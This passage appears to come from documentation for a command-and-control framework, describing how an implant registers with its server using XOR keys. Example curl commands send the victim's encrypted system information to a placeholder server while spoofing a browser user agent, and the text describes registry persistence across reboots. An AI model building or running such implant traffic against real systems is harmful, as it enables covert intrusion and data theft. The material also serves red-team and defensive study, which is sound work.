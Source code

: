 Explained Flow:
1. Implant sends GET request to /register with authentication headers
2. Server generates new GUID and an Implant's Unique XOR Key (will be used in future operations)
3. Server returns JSON with GUID and Unique XOR Key in base64

---------------------------------------------------------------------------------------------

### 2. Register Endpoint POST Flow
**POST Request Flow**:

Communication Diagram:
```
+----------------+     +----------------+     +----------------+
|    Implant     |     |    Server      |     |   Database     |
+----------------+     +----------------+     +----------------+
        |                     |                      |
        |-- POST /register -->|                      |
        |                     |-- Store implant ---->|
        |                     |                      |
        |<-- 200 OK ----------|                      |
        |                     |                      |
+----------------+     +----------------+     +----------------+
```

Explained Flow:
1. Implant sends system information encrypted with Unique XOR Key
2. Server decrypts and validates the information
3. Server stores the implant in the database
4. Server confirms successful activation to Implant


4. **Runtime Usage**:
   - After Registration GET Flow, implant switches to unique runtime key for communication (Unique XOR Key)
   - If Unique XOR Key is lost, `/reconnect` endpoint will provides the Implant with its Unique XOR Key again
   - Important: Initial XOR Key continues to be used in Implant lifecycle, for example in registry operations between process restart or system     reboots. 
      - Also, Initial XOR Key is an important component in the reconnection process (look at `/reconnect` endpoint documentation)

**Example CURL**:
```bash
# GET Request, internally in this process INITIAL XOR KEY is used.
curl -X GET "http://server:port/register" \
  -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Trident/7.0; rv:11.0) like Gecko" \
  -H "X-Correlation-ID: PASIOnodnoqonasond12314" \

# POST Request, from this and on UNIQUE XOR KEY is used for communication process. 
curl -X POST "http://server:port/register" \
  -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Trident/7.0; rv:11.0) like Gecko" \
  -H "X-Correlation-ID: PASIOnodnoqonasond12314" \
  -H "X-Request-ID: <guid>" \
  -d '{"data": "<base64_encoded_unique_xor_encrypted_system_info>"}'
```
